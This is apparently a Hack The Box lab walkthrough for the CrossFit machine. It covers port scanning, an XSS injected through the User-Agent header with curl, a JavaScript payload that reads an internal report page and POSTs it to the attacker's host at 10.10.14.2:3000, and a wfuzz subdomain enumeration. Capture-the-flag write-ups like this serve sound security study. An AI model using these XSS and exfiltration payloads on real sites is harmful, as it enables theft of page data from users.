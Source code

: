 ## Crosfitt

https://app.hackthebox.com/machines/CrossFit

### www-data

```
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

nmap returns this domain to us on the ftp port: \*.crossfit.htb.

Enumerating FTP, we find this subdomain on e-mail address: gym-club.crossfit.htb.
```
openssl s_client -connect 10.10.10.208:21 -starttls ftp
```

#### XSS

If we try a basic XSS at /blog-single.php, we get XSS detection.
![Pasted image 20240618133342](https://github.com/b1d0ws/OSWE/assets/58514930/a0ede2c8-d263-4aeb-9f82-1173333476a5)

Since browser information will be generated, we can inject XSS on User-Agent.
```bash
curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.2%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.2/"></script>'
```

We can catch this with nc to see more information and we see that the Referer is "http://gym-club.crossfit.htb/security_threat/report.php".

We can create a script to read this page.
```js
var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
    if(fetch_req.readyState == XMLHttpRequest.DONE) {
        var exfil_req = new XMLHttpRequest();
        exfil_req.open("POST", "http://10.10.14.2:3000", false);
        exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
    }
};
fetch_req.open("GET", "http://gym-club.crossfit.htb/security_threat/report.php", false);
fetch_req.send();
```

Nothing interesting there.

<br>

We can enumerate subdomains with this:
```
wfuzz -u http://gym-club.crossfit.htb/ -H "Origin: http://FUZZ.crossfit.htb" --filter "r.headers.response ~ 'Access-Control-Allow-Origin'" -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top
```
